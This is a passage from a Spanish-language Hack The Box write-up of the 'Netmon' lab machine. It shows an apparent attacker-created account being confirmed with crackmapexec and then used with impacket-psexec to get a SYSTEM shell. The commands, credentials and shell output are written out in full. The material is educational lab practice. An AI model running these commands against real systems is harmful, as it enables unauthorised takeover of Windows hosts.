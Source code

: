 Para ejecutar la notificación, nos vamos a la que hemos creado y damos click en el icono de un papel y un lapiz y nos aparecen varias opciones; seleccionamos aquella que parece una campanita. 

![""](/assets/images/htb-netmon/netmon-web3.png)

Validamos con `crackmapexec smb` si nuestro usuario fue creado:

```bash
❯ crackmapexec smb 10.10.10.152 -u 'kamiyo' -p 'k4miyo123$!'
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\kamiyo:k4miyo123$! (Pwn3d!)
```

Fue creado y a parte tenemos posiblidad de ingresar a la máquina con `impacket-psexec`. En caso que no queramos usar `psexec` podríamos tratar de agregar nuestro usuario al grupo **Remote Management Users** y conectarnos a la máquina con `evil-winrm` ya que se encuentra abierto el puerto 5985.

```bash
❯ impacket-psexec WORKGROUP/kamiyo:k4miyo123\$\!@10.10.10.152
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file PrIscOHa.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service FyEk on 10.10.10.152.....
[*] Starting service FyEk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```
